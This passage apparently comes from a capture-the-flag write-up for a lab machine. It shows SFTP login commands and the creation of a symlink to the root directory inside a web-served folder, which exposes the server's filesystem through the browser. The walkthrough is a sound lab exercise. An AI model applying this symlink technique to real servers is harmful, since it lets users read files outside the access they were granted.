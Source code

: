 
### Checking out the SFTP service

I can't connect using SSH because only SFTP is allowed on port 22:

```
# ssh ots-4NzkzMDE@10.10.10.133
ots-4NzkzMDE@10.10.10.133's password:
This service allows sftp connections only.
Connection to 10.10.10.133 closed.
```

I can log in with SFTP however:

```
# sftp ots-4NzkzMDE@10.10.10.133
ots-4NzkzMDE@10.10.10.133's password:
Connected to ots-4NzkzMDE@10.10.10.133.
sftp>
```

As expected the SFTP access provides a link to the user directory:

```
sftp> ls
public_html
sftp> cd public_html/
sftp> ls
index.html
```

### Gathering some files via symlink

I can create a symlink to the filesystem root directory with:

```
sftp> ln -s / root
sftp> ls -l
-rw-r--r--    1 1001     1001          349 Feb 15 21:03 index.html
lrwxrwxrwx    1 1001     1001            1 Apr 22 01:07 root
```

If I go in the `root` directory symlink I created, it returns me to the root of the SFTP.

```
sftp> cd root
sftp> ls
public_html
```

But with the web browser however, when I browse to `root` I see a bunch of folders:
